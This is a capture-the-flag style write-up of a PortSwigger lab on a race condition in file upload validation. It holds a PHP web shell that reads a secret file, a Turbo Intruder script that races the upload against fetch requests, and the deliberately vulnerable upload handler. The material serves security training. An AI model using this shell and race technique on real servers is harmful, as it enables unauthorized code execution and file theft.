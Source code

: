 # Web shell upload via race condition

## Description

[This lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition) contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them. 

## Reproduction and proof of concept

1. Log in and upload an image as your avatar, then go back to your account page.
2. In Burp, go to **Proxy -> HTTP history** and notice that your image was fetched using a `GET` request to `/files/avatars/<YOUR-IMAGE>`.
3. On your system, create a file called `exploit.php` containing a script for fetching the contents of Carlos's secret. For example:

```text
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
    
4. Log in and attempt to upload the script as your avatar. Observe that the server appears to successfully prevent you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.
5. If you haven't already, add the [Turbo Intruder extension](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988) to Burp from the BApp store.
6. Right-click on the `POST /my-account/avatar` request that was used to submit the file upload and select **Extensions -> Turbo Intruder -> Send to turbo intruder**. The Turbo Intruder window opens.
7. Copy and paste the following script template into Turbo Intruder's Python editor:

```text
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

8. In the script, replace `<YOUR-POST-REQUEST>` with the entire `POST /my-account/avatar` request containing the `exploit.php` file. You can copy and paste this from the top of the Turbo Intruder window.
9. Replace `<YOUR-GET-REQUEST>` with a `GET` request for fetching your uploaded PHP file. The simplest way to do this is to copy the `GET /files/avatars/<YOUR-IMAGE>` request from your proxy history, then change the filename in the path to `exploit.php`.
10. At the bottom of the Turbo Intruder window, click **Attack**. This script will submit a single `POST` request to upload your `exploit.php` file, instantly followed by 5 `GET` requests to `/files/avatars/exploit.php`.
11. In the results list, notice that some `GET` requests received a 200 response containing Carlos's secret. These requests hit the server after the PHP file was uploaded, but before it failed validation and was deleted.
12. Submit the secret to solve the lab.

## Exploitability

An attacker will need to log in to `wiener:peter`; upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`; and then enter this secret using the button provided in the lab banner.  

The vulnerable code that introduces this race condition:

```text
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?> 
```

The uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it is possible to execute the file in the small time-window before it is removed.

Due to the generous time window for this race condition, it is possible to solve this lab by manually sending two requests in quick succession using Burp Repeater. The solution described here teaches you a practical approach for exploiting similar vulnerabilities in the wild, where the window may only be a few milliseconds. 
